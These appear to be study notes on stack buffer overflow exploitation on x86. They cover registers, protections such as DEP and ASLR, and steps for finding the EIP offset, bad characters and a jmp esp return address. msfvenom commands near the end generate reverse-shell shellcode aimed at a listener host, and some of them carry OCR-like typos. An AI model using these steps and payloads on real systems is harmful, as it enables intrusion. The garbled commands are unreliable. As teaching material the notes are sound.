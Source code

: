 * Each function has an associated stack frame allocated at run time.

* Stack grows from high to low memory address.

* Heap grows from low to high memory address.

* Most of the computers use little endian format(\x04\x03\x02\x01) to write words(16 bits) on stack.

* Buffer allocated on stack is filled from low to high memory address which makes it possible to overwrite ebp,eip and other registers if buffer length is not handled properly.

* Register length

```
EAX	- Extended Accumulator	- 32 bits
AX	- Accumulator			- 16 bits
AL 	- Accumulator low		- 8 bits
```

* General Purpose Registers

```
EAX (accumulator): Arithmetical and logical instructions
EBX (base): Base pointer for memory addresses
ECX (counter): Loop, shift, and rotation counter
EDX (data): I/O port addressing, multiplication, and division
ESI (source index): Pointer addressing source in string copy operations
EDI (destination index): Pointer addressing destination in string copy operations
```

* Other Important Registers

```
ESP- The Stack Pointer (top of stack)
EBP - The Base Pointer (bottom of stack)
EIP- The Instruction Pointer
```

## Buffer overflow Protections in place


* __Data Execution Prevention__ - DEP forces certain structures, including the stack, to be marked as non-executable. This prevents shellcode written on stack to execute.

* __Address Space Layout Randomization__ - ASLR randomizes the base addresses of loaded applications and DLLs every time the operating
system is booted. This makes it difficult to code return address during exploitation if the application is compiled with ASLR.

* __Control Flow Guard__(windows) - CFG, Microsoft's implementation of control-flow integrity, performs validation of indirect code branching, preventing overwrites of function pointers.

* __Stack canaries__(linux) - Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately. 


## Roadmap to exploitation (stack based only)

* Try to crash the program with incrementing buffer length.

* Overwrite the EIP register.

* Identify the offset

```
msf-pattern_create -l 888
msf-pattern_offset -l 888 -q <EIP-hex-value>
```

* Locate Space for Shellcode

	a. If shellcode cannot be written on stack, try to find other places or references where user inputs are stored

	b. If their is little space left on stack, try to write first stage payload(eg. jmp esi) which redirects the execution to second stage shellcode.


* Check for Bad Characters - send all characters from \x00 to \xff as buffer value to see which characters are not allowed.

* Make sure return address used in exploit do not contain bad character.

* Do not hard code return address. Try to find an instruction in static library which serves the purpose. Eg- jmp esp (If shellcode is pointed by esp)

* To identify suitable return address for exploit, see all libraries with ASLR protection disabled and address range containing no bad characters. `!mona modules`

* use msf-nasm_shell to get hex value of required instruction and use plugins like mona script to find occurences of required instruction in the static library.

```
!mona find -s "\xff\xe4" -m "libspp.dll"
```

* Generate shellcode with metasploit

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.8.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x88\x8a\x0d\x2S\x26\x2b\x3d"

// For multi-threaded applications, it is better to exit thread instead of process to avoid crash

msfvenom -p windows/ shett_reverse_tcp LHOST=10.11.8.4 LPORT=443 EXITFUNC=
thread -f c -e x86/shikata_ga_nai -b "\x88\x8a\x8d\x25\x26\x2b\x3d"
```

